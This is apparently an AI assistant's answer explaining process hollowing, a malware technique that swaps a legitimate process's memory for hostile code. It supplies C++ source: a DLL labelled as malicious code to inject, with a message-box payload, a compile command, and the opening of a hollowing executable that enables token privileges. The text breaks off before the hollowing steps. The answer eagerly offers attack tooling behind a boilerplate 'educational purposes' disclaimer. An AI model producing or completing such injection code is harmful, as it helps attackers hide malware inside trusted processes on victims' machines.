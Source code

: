 
Yes, process hollowing is a technique where a legitimate process is started in a suspended state, its memory is replaced with malicious code, and then it is resumed to execute the malicious code. Below is a simplified example of how you could implement process hollowing in C++. Note that this is an advanced and potentially dangerous technique, and it should only be used for legitimate and authorized purposes such as security research or penetration testing.

**Warning**: The following code is provided for educational purposes only. Misuse of this code could result in serious legal consequences.

### DLL Code (Malicious Code to Inject)
First, we'll create a DLL that contains the malicious code.

```cpp
// malicious_dll.cpp
#include <Windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
            MessageBoxA(NULL, "Injected!", "DLL Injection", MB_OK);
            break;
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Compile this into a DLL using your preferred compiler:
```sh
cl /LD malicious_dll.cpp
```

### EXE Code (Process Hollowing)

Now, we'll create an executable that performs process hollowing.

```cpp
// process_hollowing.cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

BOOL SetPrivilege(HANDLE hToken, LPCTSTR lpszPrivilege, BOOL bEnablePrivilege) {
    TOKEN_PRIVILEGES tp;
    LUID luid;
    if (!LookupPrivilegeValue(NULL, lpszPrivilege, &luid)) {
        printf("LookupPrivilegeValue error: %u\n", GetLastError());
        return FALSE;
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = (bEnablePrivilege) ? SE_PRIVILEGE_ENABLED : 0;

    if (!AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) {
        printf("AdjustTokenPrivileges error: %u\n", GetLastError());
        return FALSE;
    }

    if (GetLastError() == ERROR_NOT_ALL_ASSIGNED) {
        printf("The token does not have the specified privilege. \n");
        return FALSE;
    }

```